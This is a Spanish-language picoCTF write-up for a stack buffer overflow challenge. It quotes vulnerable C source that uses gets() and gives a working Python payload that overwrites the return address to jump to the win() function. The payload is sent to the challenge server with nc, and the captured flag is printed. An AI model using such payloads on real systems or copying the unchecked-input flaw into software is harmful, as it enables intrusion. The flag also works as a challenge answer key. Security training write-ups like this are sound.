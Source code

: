 ## Objetivo
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/185/vuln). You can view source [here](https://artifacts.picoctf.net/c/185/vuln.c). And connect with it using `nc saturn.picoctf.net 52058`
## Solución
Tenemos este codigo donde tenemos que ingresar un string.
La función win nos da la bandera.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
Ya que no podemos llegar directamente a la función `win`, llenamos el buffer escribiendo letras "A" hasta que este se desborde. De esta manera, en lugar de regresar a `main`, el flujo se redirige hacia `win`, que es la función que nos otorga la bandera.
```
┌──(kali㉿Franco)-[~/picoCTF/binexp2/butter-overflow-1]
└─$ (python3 -c "import sys;sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08')";echo) | nc saturn.picoctf.net 52058
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d} 
```
## Notas adicionales

## Referencias
